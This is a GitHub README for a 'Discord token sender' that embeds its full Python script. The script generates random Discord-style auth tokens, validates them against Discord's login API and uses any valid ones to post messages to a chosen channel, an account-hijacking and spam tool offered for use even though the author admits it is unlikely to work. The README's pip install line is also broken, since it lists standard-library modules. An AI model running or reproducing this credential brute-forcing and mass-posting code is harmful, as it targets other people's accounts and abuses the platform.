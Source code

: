<p align="center">
    <img src="https://raw.githubusercontent.com/PKief/vscode-material-icon-theme/ec559a9f6bfd399b82bb44393651661b08aaf7ba/icons/folder-markdown-open.svg" align="center" width="30%">
</p>
<p align="center"><h1 align="center">VELIX-DISCORD-TOKEN-SENDER</h1></p>
<p align="center">
	<em><code>❯ type shii gang</code></em>
</p>
<p align="center">
	<img src="https://img.shields.io/github/license/ihaverizzra/Velix-Discord-Token-Sender?style=default&logo=opensourceinitiative&logoColor=white&color=0080ff" alt="license">
	<img src="https://img.shields.io/github/last-commit/ihaverizzra/Velix-Discord-Token-Sender?style=default&logo=git&logoColor=white&color=0080ff" alt="last-commit">
	<img src="https://img.shields.io/github/languages/top/ihaverizzra/Velix-Discord-Token-Sender?style=default&color=0080ff" alt="repo-top-language">
	<img src="https://img.shields.io/github/languages/count/ihaverizzra/Velix-Discord-Token-Sender?style=default&color=0080ff" alt="repo-language-count">
</p>
<p align="center"><!-- default option, no dependency badges. -->
</p>
<p align="center">
	<!-- default option, no dependency badges. -->
</p>
<br>

##  Table of Contents

- [ Overview](#-overview)
- [ Features](#-features)
- [ Project Structure](#-project-structure)
  - [ Project Index](#-project-index)
- [ Getting Started](#-getting-started)
  - [ Prerequisites](#-prerequisites)
  - [ Installation](#-installation)
  - [ Usage](#-usage)
  - [ Testing](#-testing)
- [ Project Roadmap](#-project-roadmap)
- [ Contributing](#-contributing)
- [ License](#-license)
- [ Acknowledgments](#-acknowledgments)

---

##  Overview

<code>❯ this project is really useless, because in theory its not possible to generate a token, but it was a fun project!</code>

---

##  Features

<code>❯ It can generate fake tokens and sends it to the server and channel you want.</code>

---

##  Project Structure

```sh
└── Velix-Discord-Token-Sender/
    └── Velix.py
```


###  Project Index
<details open>
	<summary><b><code>VELIX-DISCORD-TOKEN-SENDER/</code></b></summary>
	<details> <!-- __root__ Submodule -->
		<summary><b>__root__</b></summary>
		<blockquote>
			<table>
			<tr>
				<td><b><a href='https://github.com/ihaverizzra/Velix-Discord-Token-Sender/blob/master/Velix.py'>Velix.py</a></b></td>
				<td><code>❯ import random
import string
import os
import requests
import time
import threading
import keyboard  # For real-time key press detection
import tkinter as tk  # For the live token viewer
from colorama import Fore, Style, init

# Initialize colorama for Windows support
init(autoreset=True)

# Stylish ASCII banner
BANNER = f"""{Fore.RED}
░▒▓█▓▒░░▒▓█▓▒░▒▓████████▓▒░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
░▒▓█▓▒░░▒▓█▓▒░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
 ░▒▓█▓▒▒▓█▓▒░░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
 ░▒▓█▓▒▒▓█▓▒░░▒▓██████▓▒░ ░▒▓█▓▒░      ░▒▓█▓▒░░▒▓██████▓▒░  
  ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
  ░▒▓█▓▓█▓▒░ ░▒▓█▓▒░      ░▒▓█▓▒░      ░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
   ░▒▓██▓▒░  ░▒▓████████▓▒░▒▓████████▓▒░▒▓█▓▒░▒▓█▓▒░░▒▓█▓▒░
{Fore.CYAN}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
  Discord Token Generator & Sender by YOU
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
"""

# Display banner
os.system("cls" if os.name == "nt" else "clear")  # Clear console
print(BANNER)

# Ask for user input
server_id = input(f"{Fore.YELLOW}[?] Enter your {Fore.CYAN}server ID{Fore.YELLOW}: {Fore.GREEN}")
channel_id = input(f"{Fore.YELLOW}[?] Enter your {Fore.CYAN}channel ID{Fore.YELLOW}: {Fore.GREEN}")
num_messages = int(input(f"{Fore.YELLOW}[?] How many messages do you want to send? {Fore.GREEN}"))

# Global list for live token viewing
generated_tokens = []

# Create GUI window for live tokens
def create_token_window():
    root = tk.Tk()
    root.title("Live Token Generator")
    root.geometry("400x300")
    
    text_box = tk.Text(root, wrap="word", bg="black", fg="green", font=("Courier", 10))
    text_box.pack(expand=True, fill="both")
    
    def update_tokens():
        text_box.delete(1.0, tk.END)
        text_box.insert(tk.END, "\n".join(generated_tokens[-10:]))  # Show last 10 tokens
        root.after(1000, update_tokens)  # Refresh every second

    update_tokens()
    root.mainloop()

# Token generation function
def generate_token():
    return (
        random.choice(string.ascii_letters).upper() +
        random.choice(string.ascii_letters).upper() +
        random.choice(string.ascii_letters) +
        ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(21)) + "." +
        random.choice(string.ascii_letters).upper() +
        ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(5)) + "." +
        ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(27))
    )

# Token validation function
def validate_token(token):
    response = requests.get("https://discord.com/api/v6/auth/login", headers={"Authorization": token})
    return response.status_code == 200

# Function to generate tokens until enough valid ones are found
valid_tokens = []

def token_generator():
    global generated_tokens
    print(f"\n{Fore.CYAN}Generating and validating tokens... (Press 'S' to view live tokens)\n")
    time.sleep(1)

    while len(valid_tokens) < num_messages:
        new_token = generate_token()
        generated_tokens.append(new_token)  # Add to live viewer
        
        if validate_token(new_token):
            print(f"{Fore.GREEN}[✓] Valid token found: {Fore.WHITE}{new_token[:25]}...")  # Shortened for display
            valid_tokens.append(new_token)
        else:
            print(f"{Fore.RED}[✗] Invalid token generated. Retrying...")

# Start token generation in a separate thread
threading.Thread(target=token_generator, daemon=True).start()

# Wait for user to press 'S' to open the token viewer
keyboard.wait("s")
print(f"\n{Fore.YELLOW}[!] Opening live token viewer...\n")

# Start token viewer in a separate thread
threading.Thread(target=create_token_window, daemon=True).start()

# Wait for the generator to finish
while len(valid_tokens) < num_messages:
    time.sleep(1)

print(f"\n{Fore.YELLOW}[✓] Found {num_messages} valid tokens.\n")

# Ask if user wants to send messages
send_messages = input(f"\n{Fore.YELLOW}[?] Do you want to send messages? (y/n): {Fore.GREEN}").strip().lower()

if send_messages == "y":
    message = input(f"{Fore.YELLOW}[?] Enter the message you want to send: {Fore.GREEN}")

    headers_list = [{"Authorization": token, "Content-Type": "application/json"} for token in valid_tokens]
    url = f"https://discord.com/api/v9/channels/{channel_id}/messages"

    print(f"\n{Fore.CYAN}Sending messages...\n")
    sent_count = 0
    for header in headers_list:
        data = {"content": message}
        response = requests.post(url, headers=header, json=data)

        if response.status_code == 200:
            print(f"{Fore.GREEN}[✓] Message sent successfully with token: {Fore.WHITE}{header['Authorization'][:20]}...")
            sent_count += 1
        else:
            print(f"{Fore.RED}[✗] Failed to send message with token: {Fore.WHITE}{header['Authorization'][:20]}... (Status {response.status_code})")

    print(f"\n{Fore.YELLOW}[✓] Finished sending {sent_count} messages.\n")
else:
    print(f"{Fore.RED}[-] Exiting without sending messages.\n")</code></td>
			</tr>
			</table>
		</blockquote>
	</details>
</details>

---
##  Getting Started

###  Prerequisites

Before getting started with Velix-Discord-Token-Sender, ensure your runtime environment meets the following requirements:

- **Programming Language:** Python


###  Installation

Install Velix-Discord-Token-Sender using one of the following methods:

**Build from source:**

1. Clone the Velix-Discord-Token-Sender repository:
```sh
❯ git clone https://github.com/ihaverizzra/Velix-Discord-Token-Sender
```

2. Navigate to the project directory:
```sh
❯ cd Velix-Discord-Token-Sender
```

3. Install the project dependencies:

Use this command to install "pip install random string os requests time threading keyboard tkinter colorama"



###  Usage
Run Velix-Discord-Token-Sender using the following command:
python Velix.py

###  Testing
Run the test suite using the following command:
Run the start.bat file

---
##  Project Roadmap

- [X] **`Task 1`**: <strike>Implement feature one.</strike>
- [ ] **`Task 2`**: Implement feature two.
- [ ] **`Task 3`**: Implement feature three.

---

##  Contributing

- **💬 [Join the Discussions](https://github.com/ihaverizzra/Velix-Discord-Token-Sender/discussions)**: Share your insights, provide feedback, or ask questions.
- **🐛 [Report Issues](https://github.com/ihaverizzra/Velix-Discord-Token-Sender/issues)**: Submit bugs found or log feature requests for the `Velix-Discord-Token-Sender` project.
- **💡 [Submit Pull Requests](https://github.com/ihaverizzra/Velix-Discord-Token-Sender/blob/main/CONTRIBUTING.md)**: Review open PRs, and submit your own PRs.

<details closed>
<summary>Contributing Guidelines</summary>

1. **Fork the Repository**: Start by forking the project repository to your github account.
2. **Clone Locally**: Clone the forked repository to your local machine using a git client.
   ```sh
   git clone https://github.com/ihaverizzra/Velix-Discord-Token-Sender
   ```
3. **Create a New Branch**: Always work on a new branch, giving it a descriptive name.
   ```sh
   git checkout -b new-feature-x
   ```
4. **Make Your Changes**: Develop and test your changes locally.
5. **Commit Your Changes**: Commit with a clear message describing your updates.
   ```sh
   git commit -m 'Implemented new feature x.'
   ```
6. **Push to github**: Push the changes to your forked repository.
   ```sh
   git push origin new-feature-x
   ```
7. **Submit a Pull Request**: Create a PR against the original project repository. Clearly describe the changes and their motivations.
8. **Review**: Once your PR is reviewed and approved, it will be merged into the main branch. Congratulations on your contribution!
</details>

<details closed>
<summary>Contributor Graph</summary>
<br>
<p align="left">
   <a href="https://github.com{/ihaverizzra/Velix-Discord-Token-Sender/}graphs/contributors">
      <img src="https://contrib.rocks/image?repo=ihaverizzra/Velix-Discord-Token-Sender">
   </a>
</p>
</details>

---

##  License

This project is protected under the [SELECT-A-LICENSE](https://choosealicense.com/licenses) License. For more details, refer to the [LICENSE](https://choosealicense.com/licenses/) file.

---

##  Acknowledgments

- List any resources, contributors, inspiration, etc. here.

---
